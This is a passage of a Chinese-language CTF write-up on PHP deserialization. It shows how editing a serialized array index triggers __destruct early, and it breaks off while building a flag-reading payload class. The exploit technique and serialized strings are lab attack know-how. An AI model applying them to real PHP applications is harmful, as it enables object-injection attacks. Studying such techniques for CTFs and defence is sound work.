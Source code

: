 加上`null`

```php
<?php
highlight_file(__FILE__);
class test{
    public function __destruct()
    {
        echo "Running method <destruct>";
    }
}
$a=new test();
$a=null;
throw new Error("this is a test");
```

![image-20220301195641203](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203011956274.png)

成功触发了`__destruct`

我们加上一个数组

```php
<?php
highlight_file(__FILE__);
class test{
    public function __destruct()
    {
        echo "Running method <destruct>";
    }
}
$a=new test();
$b=null;
$c=array($a,$b);
echo serialize($c);
throw new Error("this is a test");
```

得到

```
a:2:{i:0;O:4:"test":0:{}i:1;N;}
```

然后将上面序列化内容改为

```
a:2:{i:0;O:4:"test":0:{}i:0;N;}
```

就可以达到提前触发`__destruct()`



所以构造payload

```
<?php
class one {
    public $object;
    public $year_parm=array(0=>"Happy_func");
    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $flag;
                echo $flag;
            }
        });
    }
    public function __destruct() {
        @$this->object->add();
```